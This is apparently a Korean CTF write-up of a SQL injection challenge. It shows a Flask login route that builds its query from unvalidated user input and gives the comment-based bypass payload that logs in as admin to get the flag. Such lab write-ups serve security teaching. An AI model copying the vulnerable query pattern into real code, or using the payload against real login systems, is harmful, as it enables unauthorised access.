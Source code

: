 ### 문제 코드

#### 데이터베이스 구조

```python
DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()
```

<img src="https://velog.velcdn.com/images/silvergun8291/post/4d6283f4-8254-4ec0-bc99-44b64eaba48e/image.png">


<br>

#### 엔드포인트: /login

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```

로그인 페이지를 제공합니다.
이용자가 입력한 계정 정보가 DB에 존재하는지 확인하고 로그인 계정이 admin이면 FLAG를 출력합니다.


<br>
<br>


### 익스플로잇

유저로 부터 입력 받은 userid와 userpassword로 query를 만들고 있는데, 입력 값에 대한 검증을 하지 않고 있습니다.
그래서 SQL Injection 취약점이 발생합니다.

FLAG를 출력하기 위해서는 admin으로 로그인을 해야하기 때문에, password 입력을 우회하는 query를 짜보면

```sql
# -- 주석으로 뒤에 sql 쿼리를 없애서 인증 우회
SELECT * FROM users WHERE userid="admin"--
```

<br>

해당 쿼리를 만드는 입력을 줘보면

```
userid: admin"--
password: dummy
```

<img src="https://velog.velcdn.com/images/silvergun8291/post/72e7dc87-3772-4461-83ec-07d68be6afe9/image.png">

<img src="https://velog.velcdn.com/images/silvergun8291/post/f721433d-cec0-49fa-8aa4-dc6fd250b73e/image.png">

admin으로 로그인하는데 성공해서 FLAG가 출력되었습니다.





